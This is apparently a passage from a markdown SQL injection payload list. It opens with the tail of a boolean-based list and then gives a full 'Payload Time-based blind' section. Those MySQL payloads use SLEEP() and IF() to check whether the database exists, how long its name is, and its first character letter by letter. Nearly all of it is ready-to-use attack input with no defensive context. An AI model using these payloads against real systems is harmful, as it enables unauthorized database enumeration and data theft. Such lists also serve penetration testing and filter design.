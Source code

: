 ```
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'y' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'z' --
```

## Payload Time-based blind

```
' AND SLEEP(5) --
' AND (SELECT SLEEP(5)) --
' AND (SELECT SLEEP(5) FROM DUAL) --
' AND IF(1=1,SLEEP(5),0) --
' AND IF(1=2,SLEEP(5),0) --
' AND IF((SELECT COUNT(*) FROM information_schema.tables) > 0,SLEEP(5),0) --
' AND IF((SELECT COUNT(*) FROM information_schema.tables) > 1000,SLEEP(5),0) --
' AND IF((SELECT LENGTH(DATABASE())) = 1,SLEEP(5),0) --
' AND IF((SELECT LENGTH(DATABASE())) = 2,SLEEP(5),0) --
' AND IF((SELECT LENGTH(DATABASE())) = 3,SLEEP(5),0) --
' AND IF((SELECT LENGTH(DATABASE())) = 4,SLEEP(5),0) --
' AND IF((SELECT LENGTH(DATABASE())) = 5,SLEEP(5),0) --
' AND IF((SELECT LENGTH(DATABASE())) = 6,SLEEP(5),0) --
' AND IF((SELECT LENGTH(DATABASE())) = 7,SLEEP(5),0) --
' AND IF((SELECT LENGTH(DATABASE())) = 8,SLEEP(5),0) --
' AND IF((SELECT LENGTH(DATABASE())) = 9,SLEEP(5),0) --
' AND IF((SELECT LENGTH(DATABASE())) = 10,SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'a',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'b',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'c',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'd',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'e',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'f',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'g',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'h',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'i',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'j',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'k',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'l',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'm',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'n',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'o',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'p',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'q',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'r',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 's',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 't',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'u',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'v',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'w',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'x',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'y',SLEEP(5),0) --
' AND IF((SELECT SUBSTRING(DATABASE(),1,1)) = 'z',SLEEP(5),0) --
```
